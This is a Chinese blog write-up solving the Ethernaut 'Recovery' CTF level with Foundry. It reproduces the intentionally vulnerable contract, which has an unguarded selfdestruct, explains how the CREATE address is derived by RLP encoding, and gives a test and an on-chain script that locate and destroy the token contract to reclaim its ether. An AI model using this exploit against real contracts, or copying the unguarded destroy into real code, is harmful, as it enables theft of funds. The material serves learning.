


# Foundry 通关 Ethernaut（16）— Recovery

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

找回转给新 Token 合约的钱

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. Recovery :  只有一个 generateToken 的功能，通过 new 关键词，实例化一个新合约
2. SimpleToken ：一个简单的 Token 合约，主要具有转账 transfer 和 destroy 自毁两个函数

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```

## 思路

这道题主要在于如何找到新创建的合约地址。这里，对于合约创建合约来说，通过 new 关键词创建的合约，其地址是确定性的，我们可以通过计算得出地址（create）：

1. 对发送者地址和nonce进行 RLP 编码
2. 将编码结果进行 Keccak-256 哈希运算
3. 取这个哈希值的最后20字节

这种方法可以确保每个新创建的合约都有一个唯一的地址。每次账户发起交易（包括部署合约），其nonce就会递增。这意味着相同的账户无法再次生成相同的合约地址，因为每次部署合约时它的nonce都会不同。(当然还有一种 create2 计算)

Solidity 中

```solidity
//  nonce 为 0 时生成的地址
nonce0 =address(keccak256(0xd6, 0x94,address, 0x80))
nonce1 =address(keccak256(0xd6, 0x94,address, 0x01))
```

这里哈希的值涉及到 RLP 编码:  `RLP[msg.sender,nonce]` ,下面我们通过计算，看一下这个 **0xd6, 0x94** 是怎么计算的

**前提：**

- [RLP 计算规则](https://ethereum.org/en/developers/docs/data-structures-and-encoding/rlp/)，需要计算 RLP [ address , nonce ]
- address 20字节，nonce 为 0x01,1个字节
- 0xd6 = 214, 0x94=148，0x80 = 128，0xc0 = 192

1. 

RLP: address (20字节字符串)

0x80 + 20 = 148= 0x94

**0x94，address**

2. 

RLP:  nonce （0-127内的整数）

**nonce 本身**

3. 

总长度：**0xc0 + 21 + 1 = 0xd6**

因此 `RLP[msg.sender,nonce]` 编码结果为 **0xd6，0x94，address, 0x01**

## 踩坑

这里涉及到字符串和整数一起进行 RLP 编码，规则的计算有多种，需要慎重

## foundry 复现

### 测试

1. 测试脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Test, console} from "forge-std/Test.sol";
   import {Recovery,SimpleToken} from "../src/Recovery.sol";
   
   contract RecoveryTest is Test {
       Recovery public recovery;
       SimpleToken public simple;
   
       function setUp() public {
           recovery = new Recovery();
           recovery.generateToken("Test", 100);
       }
   
       function test_simple() public {
           // 计算合约 new 创建的合约地址
           address _address = address(uint160(
               uint256(
                   keccak256(
                       abi.encodePacked(
                           bytes1(0xd6),
                           bytes1(0x94),
                           address(recovery),
                           bytes1(0x01)
                       )
                   )
               )
           ));
           // 先转账
           payable(_address).call{value: 0.001 ether}("");
           simple = SimpleToken(payable(_address));
   
           console.log("before",address(recovery).balance,address(simple).balance);
           // 自毁函数
           simple.destroy(payable(address(recovery)));
           console.log("after",address(recovery).balance,address(simple).balance);
       }
   }
   ```

2. 终端输入

   ```solidity
   forge test --match-path test/Recovery.t.sol
   ```

   

我们可以看到，攻击后，转给创建的 Token 合约的 eth 成功找回

### 链上交互

1. 部署脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Script, console} from "forge-std/Script.sol";
   import {Recovery, SimpleToken} from "../src/Recovery.sol";
   
   contract RecoveryScript is Script {
       Recovery public recovery;
       SimpleToken public simple;
       address public _recovery;
   
       function setUp() public {
           _recovery = "关卡实例地址";
           recovery = Recovery(_recovery); 
             
           address _address = address(uint160(
               uint256(
                   keccak256(
                       abi.encodePacked(
                           bytes1(0xd6),
                           bytes1(0x94),
                           _recovery,
                           bytes1(0x01)
                       )
                   )
               )
           ));
           simple = SimpleToken(payable(_address));
       }
   
       function run() public {
           vm.startBroadcast();
           console.log("before:", _recovery.balance);
   
           simple.destroy(payable(_recovery));
   
           console.log("after:", _recovery.balance);
           vm.stopBroadcast();
       }
   }
   ```

2. 终端部署

   ```
   forge script script/Recovery.s.sol --rpc-url $Sepolia_RPC_URL --broadcast  --account [account] interactive
   ```

   

交互后，recovery 合约成功获得新建的 token 合约自毁转回来的 eth


